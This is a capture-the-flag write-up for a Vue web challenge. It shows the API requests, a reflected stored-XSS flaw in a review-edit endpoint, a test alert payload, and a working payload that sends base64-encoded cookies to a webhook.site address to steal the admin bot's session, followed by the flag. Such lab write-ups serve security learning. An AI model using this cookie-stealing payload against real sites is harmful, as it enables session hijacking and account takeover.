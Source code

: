# A Good Vue
> Check out my cool artworks over there: goodvue.rumble.host If you want an Admin to check out your cool stuff: goodvue-bot.rumble.host

## About the Challenge
We have been given a website to test and this website using VueJS. Here is the preview of the website

![preview](images/preview.png)

If we press the `EXPLOIT` button in the corner of the website, it will return an alert

![alert](images/alert.png)

But there is an API endpoint that you can access [here](http://goodvue-api.rumble.host). If you access the homepage, the website will request to the API endpoint. Here is the HTTP request when the website send a request to `http://goodvue-api.rumble.host/get`

```
POST /get HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
...

{"id":"1","token":"OUR_COOKIE_VALUE"}
```

And it will return the review information such as likes, dislikes, and also the comments.

## How to Solve?
Because in the description there is an admin bot, so we know this is a XSS chall, and then because this website using VueJS i tried to check every request and I found this [url](http://goodvue.rumble.host/src/components/ImageComponent.vue)

![endpoint](images/endpoint.png)

As you can see there are 2 endpoints:
* http://goodvue-api.rumble.host/get
* http://goodvue-api.rumble.host/edit

When i tried to edit one of the review by sending this request

```
POST /edit HTTP/1.1
Host: goodvue-api.rumble.host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
...

{"id":"1","token":"OUR_COOKIE_VALUE","text":"test"}
```

Luckily our input was reflected in the website

![input](images/input.png)

And then i tried to use normal XSS payload

```html
<img src=x onerror=alert(document.cookie)>
```

![testing](images/testing.png)

And we got an alert, so I tried to create another payload to steal the admin cookie. Here is the payload I used to steal the cookie

```
<img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie)\">"
```

After that, send the cookie to the admin and then wait until we got the admin's cookie

![webhook](images/webhook.png)

Decode the cookie using base64 and voilà

![flag](images/flag.png)

```
CSR{3v3n_vu3_c4n_h4v3_XSS}
```